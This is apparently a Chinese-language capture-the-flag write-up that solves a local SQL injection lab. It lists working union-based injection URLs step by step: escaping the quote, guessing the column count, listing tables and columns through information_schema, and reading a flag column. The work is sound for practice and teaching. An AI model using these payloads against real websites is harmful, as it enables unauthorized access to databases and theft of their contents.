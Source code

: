 # SQL Insert Sample

## sol

啟動容器後進入網站

`http://localhost/index.php?id=1`

![alt text](image.png)

把每個 id 試一次，有 id = 1, 2, 3

其中 id=3 有提示網址 `http://localhost/index.php?id=3&tips=1`

得知該頁面使用的 SQL 語句：`select * from notes where id ='3'`

![alt text](image-1.png)

由於 id 有轉字串，所以嘗試在屏蔽 `'` 號的條件下注入基本查詢

使用網址: `http://localhost/index.php?id=4%27union%20select%20*from%20notes%20where%20id=1%23`

使用 union 注入，下一段 sql 語句，這裡藏了幾個小細節，提高這句成功的機率：

1. %27 代表 `'`，%23 代表 `#`，可以屏蔽外層包覆的轉字串符號 `'<your input>'`
2. union 聯集前後語句的 col 數量要相同，但是不知道 col 數量時可以先使用相同表格取 `*` 則必然成功
3. 為了確保第二句的結果呈現，第一句 sql 的查詢結果要是空，所以使用不存在的 id 來查詢，例如 `id=4`

![alt text](image-2.png)

確保注入成功後，開始暴力測試目標表格 col 數量一次嘗試以下網址，唯一成功代表試對了，此舉在 SQL 上是強制填入數字在結果

- `http://localhost/index.php?id=4%27union%20select%201%20from%20notes%20where%20id=1%23`
- `http://localhost/index.php?id=4%27union%20select%201,2%20from%20notes%20where%20id=1%23`
- `http://localhost/index.php?id=4%27union%20select%201,2,3%20from%20notes%20where%20id=1%23`

試到三個 col 時成功了，知道 notes 表格有三個 col。

![alt text](image-3.png)

接著查詢資料庫中有那些 table，該 table 下有機個 col。

使用: `http://localhost/index.php?id=4%27union%20select%201,group_concat(table_name),3%20from%20information_schema.tables%20where%20table_schema=database()%23`

查找 mysql 的系統資訊，該方案用在 admin 沒有封鎖該權限時，不一定會成功。

查到 table 中除了 notes 還有表格叫 fl4g

![alt text](image-4.png)

查找 fl4g 表格的 col 名稱。

使用: `http://localhost/index.php?id=4%27union%20select%201,group_concat(column_name),3%20from%20information_schema.columns%20where%20table_name='fl4g'%23`

![alt text](image-5.png)

得知只要一個 col 叫做 fllllag，直接注入讀讀看

`http://localhost/index.php?id=4%27union%20select%201,fllllag,3%20from%20fl4g%23`

![alt text](image-6.png)

得到 flag 的值。
